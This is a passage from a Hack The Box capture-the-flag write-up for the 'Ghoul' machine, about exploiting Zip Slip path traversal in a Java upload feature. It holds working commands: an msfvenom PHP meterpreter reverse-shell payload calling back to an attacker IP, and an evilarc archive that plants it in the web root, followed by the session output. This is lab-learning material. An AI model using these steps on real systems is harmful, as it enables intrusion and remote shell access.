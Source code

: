 ![](/assets/images/htb-writeup-ghoul/upload_jpg_nok.png)

So it seems I can only upload ZIP and JPG files and I don't know where they are stored. I ran gobuster to try to find an upload folder or something on port 8080 but I didn't find anything.

### Getting a shell with Zip Slip

There's a well known arbitrary file overwrite vulnerability called Zip Slip that affects multiple projects, including Java. The gist of it is we can craft a malicious zip file  that when extracted will place the content to an arbitrary location of our choosing. Normally, using file traversal characters would be forbidden but the vulnerability here allow such characters to be processed by Java. In this case, we want to place a reverse shell payload somewhere on the webserver where we can access it and trigger it.

Details on the vulnerability can be found here: [https://github.com/snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

To generate the zip files, I used the [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) python tool:

```
# msfvenom -p php/meterpreter/reverse_tcp -o met.php LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
Saved as: met.php
```

```
# python evilarc.py -f met.zip -o unix -p "../../../../../../var/www/html" met.php
Creating met.zip containing ../../../../../../../../../../../../../../var/www/html/met.php
```

After creating the archive, I uploaded it then triggered the meterpreter payload by browsing to it `/met.php`

```
[*] Started reverse TCP handler on 10.10.14.23:4444
msf5 exploit(multi/handler) > [*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.101
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.101:46874) at 2019-05-06 21:41:05 -0400

meterpreter > shell
Process 1180 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Aogiri:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
